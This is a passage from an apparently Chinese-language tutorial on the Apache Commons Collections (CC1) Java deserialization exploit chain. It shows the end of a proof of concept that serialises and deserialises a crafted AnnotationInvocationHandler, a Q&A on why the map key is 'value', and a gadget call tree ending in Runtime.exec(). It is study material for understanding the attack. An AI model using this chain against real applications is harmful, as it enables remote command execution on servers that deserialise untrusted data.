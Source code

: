 ```java
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, outerMap);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(handler);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        
    }
}
```

> Q: 为什么构造 `innerMap` 时要将 `key` 设为 `"value"` ?
>
> A: `AnnotationInvocationHandler` 要求传入的 `memberValues` 这个 `Map` 的键要与注解示例的元素（方法）名一致，而值为对应的取值，`java.lang.annotaion.Retention` 只有一个元素 `value`
>
> 所以为了成功反序列化触发链子，必须要传入注解类中有的元素

### Gadgets

```text
ObjectInputStream.readObject()
	AnnotationInvocationHandler.readObject()
		Map(Proxy).entrySet()
			AnnotationInvocationHandler.invoke()
				TransformedMap.setValue()
					TransformedMap.checkSetValue()
						ChainedTransformer.transform()
							ConstantTransformer.transform()
							InvokerTransformer.transform()
								Method.invoke()
									Class.getMethod()
							InvokerTransformer.transform()
								Method.invoke()
									Runtime.getRuntime()
							InvokerTransformer.transform()
								Method.invoke()
									Runtime.exec()
									
```



## LazyMap 利用链

### Analyze
